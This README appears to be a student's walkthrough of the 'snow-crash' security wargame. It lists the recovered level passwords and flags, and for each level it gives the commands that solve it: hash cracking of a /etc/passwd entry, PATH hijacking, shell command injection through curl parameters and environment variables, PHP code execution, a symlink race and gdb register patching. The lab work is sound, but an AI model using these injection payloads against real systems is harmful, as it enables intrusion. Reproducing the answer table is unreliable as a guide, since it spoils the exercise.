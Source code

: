 # snow-crash
This project will be an introduction to cyber security.

## Passwords

| User    | Password                  |
| :-----: |:-------------------------:|
| level00 | level00                   |
| flag00  | nottoohardhere            |
| level01 | x24ti5gi3x0ol2eh4esiuxias |
| flag01  | abcdefg                   |
| level02 | f2av5il02puano7naaf6adaaf |
| flag02  | ft_waNDReL0L              |
| level03 | kooda2puivaav1idi4f57q8iq |
| level04 | qi0maab88jeaj46qoumi7maus |
| level05 | ne2searoevaevoem4ov4ar8ap |
| level06 | viuaaale9huek52boumoomioc |
| level07 | wiok45aaoguiboiki2tuin6ub |
| level08 | fiumuikeil55xe9cu4dood66h |
| flag08  | quif5eloekouj29ke0vouxean |
| level09 | 25749xKZ8L7DkSCwJkT9dyv6f |
| flag09  | f3iji1ju5yuevaus41q1afiuq |
| level10 | s5cAJpM8ev6XHw998pRWG728z |
| flag10  | woupa2yuojeeaaed06riuj63c |
| level11 | feulo4b72j7edeahuete3no7c |
| level12 | fa6v5ateaw21peobuub8ipe6s |
| level13 | g1qKMiRpXf53AWhDaU7FEkczr |
| level14 | 2A31L79asukciNyi8uppkEuSx |

## Script

### level00

```bash
level00@SnowCrash:~$ find / -user flag00 2>/dev/null
/usr/sbin/john
/rofs/usr/sbin/john
```

```bash
level00@SnowCrash:~$ cat /usr/sbin/john
cdiiddwpgswtgt
```

- [identify encryption method](https://www.dcode.fr/identification-chiffrement)
- [decrypt cesar code](https://www.dcode.fr/chiffre-cesar)

### level01

```bash
flag00@SnowCrash:~$ cat /etc/passwd | grep flag01
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
```

Using ``john the ripper`` I was able to find corresponding password.

```bash
user@hostname:~$ echo "42hDRfypTqqnw" > /tmp/password-file && john /tmp/password-file && john -show /tmp/password-file
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 SSE2-16])
No password hashes left to crack (see FAQ)
?:abcdefg
1 password hash cracked, 0 left
```

### level02

Open ``level02.pcap`` in wireshark then Statistics -> Conversations -> Tab TCP -> Follow Stream

### level03

```bash
level03@SnowCrash:~$ strings ./level03 | grep Exploit
/usr/bin/env echo Exploit me
level03@SnowCrash:~$ cp /bin/getflag ./echo
level03@SnowCrash:~$ PATH=$PWD ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

### level04

```bash
level04@SnowCrash:~$ curl localhost:4747?x='$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

### level05

```bash
echo "getflag > /tmp/log" > /opt/openarenaserver/foo
sleep 120
cat /tmp/foo
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

### level06

```bash
level06@SnowCrash:~$ echo '[x {$z(getflag)}]' > file
level06@SnowCrash:~$ ./level06 file shell_exec
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag x Here is your token : wiok45aaoguiboiki2tuin6ub
```

### level07

```bash
level07@SnowCrash:~$ LOGNAME='`getflag`' ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
### level08

```
level08@SnowCrash:~$ mv token toto && ./level08 toto
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

### level09

```bash
level09@SnowCrash:~$ echo '#include <stdio.h>
#include <stdlib.h>

int main(void) {
    int passwd[26] = { 102,  52, 107, 109, 109,  54, 112, 124,  61, 130, 127, 112, 130, 110, 131, 130, 68,  66, 131,  68, 117, 123, 127, 140, 137,  10 };

    for (int i = 0; i < 26; i++)
        printf("%c", (passwd[i] - i >= 20) ? passwd[i] - i : 20);
    printf("\n");
    return (EXIT_SUCCESS);
}' > main.c && gcc -std=gnu99 main.c && ./a.out
f3iji1ju5yuevaus41q1afiuq
```
```
level09@SnowCrash:~$ su flag09
Password:
Don't forget to launch getflag !
flag09@SnowCrash:~$ getflag
Check flag.Here is your token : s5cAJpM8ev6XHw998pRWG728z
```

### level10

Run in parallele these 3 commands.
```bash
for i in $(seq 1 10000); do netcat -lv 6969 2>&1 | grep -v "Connection\|toto\|.*( )*."; done
```
```bash
for i in $(seq 1 10000); do rm -f toto && ln -s token toto && rm -f toto && echo "toto" >toto; done
```
```bash
for i in $(seq 1 10000); do ./level10 toto 127.0.0.1; done
```
It will eventually give :
```
level10@SnowCrash:~$ for i in $(seq 1 10000); do netcat -lv 6969 2>&1 | grep -v "Connection\|toto\|.*( )*."; done
woupa2yuojeeaaed06riuj63c
level10@SnowCrash:~$ su flag10
Password:
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

### level11

```bash
level11@SnowCrash:~$ curl localhost:5151/'$(getflag) > /tmp/flag' && cat /tmp/flag
Password: Erf nope..
GET /Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s HTTP/1.1
```

### level12

```bash
level12@SnowCrash:~$ echo '#!/bin/bash' > /tmp/FLAG && echo 'getflag > /tmp/FLAG' >> /tmp/FLAG && chmod 777 /tmp/FLAG && curl 'localhost:4646?x=`/???/flag`&y=toto' && cat /tmp/FLAG
.Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
### level13

```bash
level13@SnowCrash:~$ gdb level13
(gdb) b getuid
Breakpoint 1 at 0x8048380
(gdb) r
Starting program: /home/user/level13/level13
Breakpoint 1, 0xb7ee4cc0 in getuid () from /lib/i386-linux-gnu/libc.so.6
(gdb) s
Single stepping until exit from function getuid,
which has no line number information.
0x0804859a in main ()
(gdb) set $eax=4242
(gdb) info register $eax
eax            0x1092   4242
(gdb) c
Continuing.
your token is 2A31L79asukciNyi8uppkEuSx
[Inferior 1 (process 1956) exited with code 050]
```
